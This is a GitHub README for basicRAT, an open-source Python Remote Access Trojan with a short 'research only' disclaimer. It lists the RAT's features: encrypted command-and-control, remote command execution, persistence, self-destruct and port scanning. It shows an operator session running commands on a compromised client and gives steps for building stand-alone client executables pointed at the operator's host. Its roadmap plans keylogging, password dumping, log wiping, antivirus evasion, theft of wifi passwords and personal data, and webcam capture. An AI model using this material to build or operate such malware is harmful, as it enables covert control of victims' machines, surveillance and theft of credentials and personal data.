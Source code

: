 # basicRAT

This is a cross-platform Python 2.x Remote Access Trojan (RAT), basicRAT was created to maintain a clean design full-featured Python RAT. Currently a work in progress and still being actively hacked on.

**Disclaimer: This RAT is for research purposes only, and should only be used on authorized systems. Accessing a computer system or network without authorization or explicit permission is illegal.**

## Features
* Cross-platform (Windows, Linux, and macOS)
* AES-256 encrypted C2 with D-H exchange
* Accepts connection from multiple clients
* Command execution
* Standard utilities (cat, ls, pwd, unzip, wget)
* System survey
* Self-destruct
* Primitive port scanning
* Client reconnect

## Usage
```
$ python basicRAT_server.py --port 1337

 ____    ____  _____ ____   __  ____    ____  ______      .  ,
|    \  /    |/ ___/|    | /  ]|    \  /    ||      |    (\;/)
|  o  )|  o  (   \_  |  | /  / |  D  )|  o  ||      |   oo   \//,        _
|     ||     |\__  | |  |/  /  |    / |     ||_|  |_| ,/_;~      \,     / '
|  O  ||  _  |/  \ | |  /   \_ |    \ |  _  |  |  |   "'    (  (   \    !
|     ||  |  |\    | |  \     ||  .  \|  |  |  |  |         //  \   |__.'
|_____||__|__| \___||____\____||__|\_||__|__|  |__|       '~  '~----''
         https://github.com/vesche/basicRAT

basicRAT server listening for connections on port 1337.

[?] basicRAT> help
Command             | Description
---------------------------------------------------------------------------
cat <file>          | Output a file to the screen.
client <id>         | Connect to a client.
clients             | List connected clients.
execute <command>   | Execute a command on the target.
goodbye             | Exit the server and selfdestruct all clients.
help                | Show this help menu.
kill                | Kill the client connection.
ls                  | List files in the current directory.
persistence         | Apply persistence mechanism.
pwd                 | Get the present working directory.
quit                | Exit the server and keep all clients alive.
scan <ip>           | Scan top 25 TCP ports on a single host.
selfdestruct        | Remove all traces of the RAT from the target system.
survey              | Run a system survey.
unzip <file>        | Unzip a file.
wget <url>          | Download a file from the web.

[?] basicRAT> clients
ID | Client Address
-------------------
 1 | 127.0.0.1

[?] basicRAT> client 1
Client 1 selected.

[1] basicRAT> execute uname -a
Running execute...
Linux sandbox3 4.9.17-c9 #1 SMP Thu Mar 23 01:38:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
execute completed.
```

## Build a stand-alone executable
Keep in mind that before building you will likely want to modify both the `HOST` and `PORT` variables located at the top of `basicRAT_client.py` to fit your needs.

On Linux you will need Python 2.x, [PyInstaller](http://www.pyinstaller.org/), and pycrypto. Then run something like `pyinstaller2 --onefile basicRAT_client.py` and it should generate a `dist/` folder that contains a stand-alone ELF executable.

On Windows you will need Python 2.x, PyInstaller, pycrypto, pywin32, and pefile. Then run something like `C:\path\to\PyInstaller-3.2\PyInstaller-3.2\pyinstaller.py --onefile basicRAT_client.py` and it should generate a `dist/` folder that contains a stand-alone PE (portable executable).

## Todo
* Interactive shell
* Client binary generation tool (cross-platform)
  * Pyinstaller
  * Switch options for remote IP, port, etc
* Persistence (cross-platform)
  * Windows: Registry keys, WMIC, Startup Dir
  * Linux: cron jobs, services, modprobe
  * macOS: LaunchAgent, LaunchDaemons
* Privilege Escalation (getsystem-esque, dirty cow)
* Common C2 Protocols (HTTP, DNS)
* Clean log files
    * Linux: bash history, var logs, audit logs, etc
    * Windows: Event logs, prefetch, etc
* Screenshot
* Keylogger
* Expand toolkit (unrar, sysinfo)
* Scanning utilities (probe scan / ping sweep, scanning subnet)
* Password dumping (mimikatz / gsecdump)
* Tunneling / Pivoting (ssh)
* Anti-virus detection and evasion
* VM and Sandbox detection
* Exfil browser history
* Search file system for sensitive information using regex
    * addresses, credit cards numbers, socials, PII, etc
* Detect web cameras and take snapshots
* Steal wifi passwords

## Authors
* Austin Jackson [@vesche](https://github.com/vesche)
* Skyler Curtis [@deadPix3l](https://github.com/deadPix3l)

## Thanks
* [@bozhu](https://github.com/bozhu), AES-GCM Python implementation.
* [@reznok](https://github.com/reznok), multiple client connection prototype.

## Other open-source Python RATs for Reference
* [nathanlopez/Stitch](https://github.com/nathanlopez/Stitch)
* [n1nj4sec/pupy](https://github.com/n1nj4sec/pupy)
* [sweetsoftware/Ares](https://github.com/sweetsoftware/Ares)
* [ahhh/Reverse_DNS_Shell](https://github.com/ahhh/Reverse_DNS_Shell)
# rat
